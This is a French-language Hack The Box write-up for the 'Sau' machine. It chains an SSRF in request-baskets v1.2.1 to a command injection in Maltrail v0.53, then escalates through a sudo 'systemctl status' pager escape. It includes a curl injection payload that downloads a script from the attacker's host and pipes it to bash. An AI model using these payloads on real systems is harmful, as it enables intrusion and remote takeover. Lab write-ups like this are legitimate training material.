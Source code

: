 +++
title = "HTB - Sau"
date = "2024-01-09"
author = "Brainmoustache"
authorTwitter = "BrainMoustache" #do not include @
cover = ""
tags = ["hackthebox", "sau", "ssrf", "command injection", "gtfobins"]
keywords = ["", ""]
description = "Resume of Sau from Hackthebox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Sau

## Enumeration:
Nmap
```bash
Nmap scan report for 10.129.167.17
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION      
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown           
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 19:23:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close       
|     Request     
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|     Content-Length: 27    
|     href="/web">Found</a>.        
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|_    Content-Length: 0
```

## User exploit
Il y a deux vulnérabilités a exploiter afin d'obtenir un shell en tant que `User`.
Dans un premier temps `request-baskets v1.2.1` est vulnérable a une faille de type SSRF (Server Side Request Forgery). 

> Une faille de type SSRF permet d'effectuer des requêtes malicieuses par l'entremise du server Web vers un endroit arbitraire.

Cette vulnérabilité se situe dans les endpoints de l'API suivants au niveau du paramètre `forward_url`.
- /api/baskets/{name}
- /baskets/{name}

Lorsque le `Basket` est créé, il est possible de modifier ledit paramètre et d'y inséré une adresse IP locale. 

### Code vulnérable
- https://github.com/darklynx/request-baskets/tree/v1.2.1
```go
# https://github.com/darklynx/request-baskets/blob/a36e2ae402204050ce42a78d750785b4b10e7958/baskets.go#L18C1-L25C2

// BasketConfig describes single basket configuration.
type BasketConfig struct {
	ForwardURL    string `json:"forward_url"`
	ProxyResponse bool   `json:"proxy_response"`
	InsecureTLS   bool   `json:"insecure_tls"`
	ExpandPath    bool   `json:"expand_path"`
	Capacity      int    `json:"capacity"`
}
```
```go
// https://github.com/darklynx/request-baskets/blob/9e4107228f6b409ccd3c3d7371b0e0fd5a5798a1/baskets.go#L152

func (req *RequestData) Forward(client *http.Client, config BasketConfig, basket string) (*http.Response, error) {
	forwardURL, err := url.ParseRequestURI(config.ForwardURL)
	if err != nil {
		return nil, fmt.Errorf("invalid forward URL: %s - %s", config.ForwardURL, err)
	}

	// expand path
	if config.ExpandPath && len(req.Path) > len(basket)+1 {
		forwardURL.Path = expandURL(forwardURL.Path, req.Path, basket)
	}

	// append query
	if len(req.Query) > 0 {
		if len(forwardURL.RawQuery) > 0 {
			forwardURL.RawQuery += "&" + req.Query
		} else {
			forwardURL.RawQuery = req.Query
		}
	}
[...]
```
Lorsque le lien du panier est visité, la vulnérabilité est activée. 






Basé sur le résultat du scan nmap, il est possible de constater qu'une application est active sur le port `8338/tcp` mais que le trafic est filtré.
Il est donc possible d'effectuer des requêtes vers cette application grâce à la SSRF. Quelques requêtes suffises afin d'identifier que l'application active est `mailtrail`.

![](/content/img/htb/request_baskets_proxy_configuration.png)

La version du logiciel est `Mailtrail (v0.53)`. Cette version est vulnérable a une exécution de code au niveau du système d'exploitation (OS Command injection).

> Une vulnérabilité de type OS Command injection permet de faire exécuter du code arbitraire par le système d'exploitation. 

La vulnérabilité se situe au niveau de la fonction `subprocess.check_output` dans le paramètre `params.get("username")` dans le fichier `mailtrail/core/http.py`. 

```python
if not IS_WIN:
    try:
        subprocess.check_output(["logger", "-p", "auth.info", "-t", "%s[%d]" % (NAME.lower(), os.getpid()), "%s password for %s from %s port %s" % ("Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1])], stderr=subprocess.STDOUT, shell=False)
    except Exception:
        if config.SHOW_DEBUG:
            traceback.print_exc()

return content
```
En combinant les deux vulnérabilités, il est possible d'obtenir un accès utilisateur sur la boxe.

```bash
#!/bin/bash

curl -k 'http://10.129.153.197:55555/qp9dxnt' --data 'username=;`/bin/curl 10.10.14.113/rev.sh | bash`'
```
User --> puma
## Root exploit
L'utilisateur `puma` a la permission d'exécuter une commande avec des droits de super utilisateur 

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Voici une explication de la vulnérabilité

> *A vulnerability was found in the systemd package. The systemd package does not adequately block local privilege escalation for some Sudo configurations, for example, plausible sudoers files, in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This issue presents a substantial security risk when running systemctl from Sudo because less executes as root when the terminal size is too small to show the complete systemctl output.*

En effectuant plusieurs requêtes vers le service `Maltrail`, `pager`, un binaire qui permet de visionner du contenu au niveau d'un terminal Linux sera exécuté.

`sudo /usr/bin/systemctl status trail.service`

`pager` pointe vers le binaire `less`. En exécutant la commande `!sh`, on obtient un shell en tant que `root`.

![](/content/img/htb/systemctl_status_less_lpe.png)

## Resources:

| Hyperlink                                                        | Info                           |
| ---------------------------------------------------------------- | ------------------------------ |
| https://notes.sjtu.edu.cn/s/MUUhEymt7                            | Exploit request-baskets v1.2.1 |
| https://github.com/advisories/GHSA-58g2-vgpg-335q                | Exploit request-baskets v1.2.1 |
| https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ | Exploit MailTrail v0.53        |
| https://bugzilla.redhat.com/show_bug.cgi?id=2175611              | Exploit systemctl              |
| https://gtfobins.github.io/gtfobins/systemctl/                   | GTFObins                       |